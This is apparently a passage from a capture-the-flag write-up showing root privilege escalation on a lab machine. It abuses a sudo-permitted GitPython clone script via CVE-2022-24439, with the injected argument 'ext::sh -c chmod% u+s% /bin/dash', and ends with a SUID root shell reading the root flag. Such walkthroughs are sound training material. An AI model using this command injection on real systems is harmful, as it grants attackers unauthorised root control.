 ```console
dev@editorial:/$ su - prod
Password:
prod@editorial:~$ id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```

```console
prod@editorial:~$ sudo -l
[sudo] password for prod:
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Here is `/opt/internal_apps/clone_changes/clone_prod_change.py`:

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

It is vulnerable to [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```console
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/dash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /bin/dash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ ls -l /bin/dash
-rwsr-xr-x 1 root root 125688 Mar 23  2022 /bin/dash
prod@editorial:/opt/internal_apps/clone_changes$ /bin/dash -p
# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
# cat /root/root.txt
0565e67...
```

